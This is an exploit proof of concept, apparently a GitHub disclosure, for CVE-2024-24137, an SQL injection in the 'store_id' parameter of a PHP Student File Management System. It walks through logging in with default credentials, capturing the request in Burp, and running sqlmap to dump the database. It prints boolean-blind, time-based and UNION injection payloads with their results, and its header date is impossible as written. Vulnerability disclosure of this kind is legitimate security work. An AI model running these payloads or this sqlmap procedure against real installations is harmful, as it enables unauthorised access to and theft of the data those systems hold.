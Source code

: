 # CVE-2024-24137: Student File Managment System SQL Injection

+ **Exploit Title:** CVE-2024-24137: Student File Managment System SQL Injection
+ **Date:** 2024-13-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/student-file-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/3e3502a1-11ea-4e87-9d05-12d6204789d6
+ **Version:** 1.0(2024)
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-24137

## Description:
Student File Managment System 2024 allows SQL Injection via parameter 'store_id' in "/SFMS/download.php?store_id=5". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit latest vulnerabilities in the underlying database

## Proof of Concept:
+ Go to the Student Dashboard: "http://localhost/sfms/"
+ Fill in the Student ID and Password with `1353`:`password` and login.
+ Student Details: 
"http://localhost/sfms/student_profile.php"
+ Copy the link to the File Download button. 
+ And receive the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /SFMS/download.php?store_id=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'store_id' parameter to dump the database.
```
sqlmap -r r.txt -p store_id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: store_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: store_id=5' AND 8329=8329-- xGzO

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: store_id=5' AND (SELECT 2163 FROM (SELECT(SLEEP(5)))YwjC)-- nIjk

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: store_id=-6687' UNION ALL SELECT NULL,CONCAT(0x71627a7171,0x726c465a49424e6674617248747642664f534f716f674e774e59424f6f66456e424249774a4b797a,0x7178766271),NULL,NULL,NULL-- -
```
+ Current Database : `db_sfms`
![Ekran görüntüsü 2024-01-13 165828](https://github.com/BurakSevben/2024_Student_File_System_SQL_-njection/assets/117217689/7ddff51a-1870-45f9-b901-f5096e16dd88)


